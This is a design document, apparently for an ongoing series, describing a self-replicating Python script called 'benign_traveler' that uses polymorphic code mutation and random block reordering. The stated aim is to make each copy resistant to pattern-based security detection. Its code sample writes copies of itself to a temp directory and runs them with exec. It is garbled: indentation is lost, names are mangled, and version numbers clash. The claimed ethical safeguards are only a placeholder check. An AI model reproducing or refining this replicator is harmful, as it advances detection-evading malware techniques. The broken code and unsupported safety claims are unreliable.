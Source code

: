 **Title: Advanced Polymorphism in ‘benign_traveler-v-0-2-1.py’: A Theoretical Exploration of Code Mutation and Reordering**

- Introduction
This document details the design of an enhanced version of the Python script ‘benign_traveler-v-0-2-1.py’. This iteration introduces advanced polymorphic techniques, including code mutation and the dynamic reordering of code blocks within the script body. The intent remains to explore the theoretical underpinnings of sophisticated self-replication while ensuring the program remains non-destructive and ethical in its operation.

- Purpose and Objective
The objective of ‘benign_traveler-v-0-2-1.py’ is to demonstrate the concept of advanced polymorphism through both code mutation and dynamic reordering. These techniques are modeled on real-world viruses but are implemented in a manner that ensures no harm is done to the host systems. The emphasis is on the academic exploration of self-replicating code with a focus on ethical programming practices.

- Core Components of ‘benign_traveler-v-0-2-1.py’
* Polymorphism with Code Mutation: The script modifies not only variable names but also entire code segments to generate unique instances with each replication.
* Dynamic Code Reordering: The script rearranges certain code blocks within its body to further differentiate each copy, making it even more resistant to detection by pattern-based security systems.
* Non-Destructive Behavior: The script adheres strictly to non-destructive principles, ensuring no files or system settings are altered during its operation.
* Termination and Self-Destruction: The script includes mechanisms to limit its spread and eventually self-terminate.
* Ethical Safeguards: Explicit permissions are required for the script to replicate, ensuring it operates only in approved environments.

- Detailed Explanation of Each Component
* Polymorphism with Code Mutation:
The script dynamically changes segments of its own code during replication. This includes altering function names, variable names, and even logic structures (e.g., changing loops into equivalent recursive functions or using different conditional statements).
* Dynamic Code Reordering:
Specific blocks of code are designed to be reordered randomly with each replication. This reordering is done without altering the logic or outcome of the script but changes the sequence of operations, further obfuscating the script’s pattern.

[Example Code Blocks for Reordering:]
The script is divided into modular code blocks, each responsible for a particular function (e.g., replication, termination check, permission check). These blocks are then rearranged in a random order during each replication.

Pseudocode Outline

Below is a pseudocode representation of ‘benign_traveler-v-0-3-0.py’, demonstrating both polymorphism and dynamic reordering:

```python
import os
import shutil
import random
import uuid

def generate_polymorphic_code():
    # Example of altering code logic and reordering blocks
    blocks = [
        '''
def check_permission():
# Placeholder for permission check logic
return os.path.exists('/path/to/permission_marker')
''',
'''
def polymorphic_replicate():
unique_id = "{unique_id}"
target_directory = os.getenv('TEMP', '/tmp')
script_name = 'benign_traveler-v-0-3-0-' + unique_id + '.py'

# lua
if not os.path.exists(target_directory):
    os.makedirs(target_directory)

with open(os.path.join(target_directory, script_name), 'w') as new_script:
    new_script.write(generate_polymorphic_code())
''',
'''
def should_terminate():
if random.randint(1, 100) > 85: # Termination condition
self_destruct()
return True
return False
''',
'''
def self_destruct():
try:
os.remove(file)
print("Self-destruct initiated. Script removed.")
except Exception as e:
print(f"Self-destruction failed: {e}")
''']

   # Shuffle the blocks to reorder them
   random.shuffle(blocks)
   # Generate a unique ID for polymorphism
   unique_id = str(uuid.uuid4())

   # Combine the blocks into the final script
   script_body = ''.join(blocks).format(unique_id=unique_id)
   return script_body
def main():
script_code = generate_polymorphic_code()
exec(script_code) # Dynamically execute the generated code

if name == "main":
main()
```

- **Explanation**:
  - **generate_polymorphic_code()**: This function generates the script’s code with polymorphic elements and reorders the modular code blocks.
  - **Reordered Blocks**: Each block (e.g., permission check, replication, termination check) is shuffled in random order during each replication.
  - **Dynamic Execution**: The generated script is executed dynamically within the same script, ensuring each instance is unique.

6. **Operational Flow**
- Upon execution, the script generates a new version of itself with a unique structure and code order. It then checks for permission to operate, proceeds with replication if permitted, and eventually terminates itself after fulfilling its replication lifecycle.

7. **Conclusion**
- The ‘benign_traveler-v-0-3-0.py’ script represents an advanced exploration of polymorphism in self-replicating code. By combining code mutation with dynamic reordering, this theoretical program demonstrates how such techniques can be used to create highly resilient and elusive scripts. As always, ethical considerations are paramount, and this document emphasizes the importance of responsible programming.

---

**Disclaimer**: The information provided herein is purely for academic and theoretical discussion. The creation or distribution of self-replicating programs, even those intended to be benign, can have unintended consequences and may violate legal and ethical standards. This content does not endorse or encourage the creation or distribution of self-replicating software.
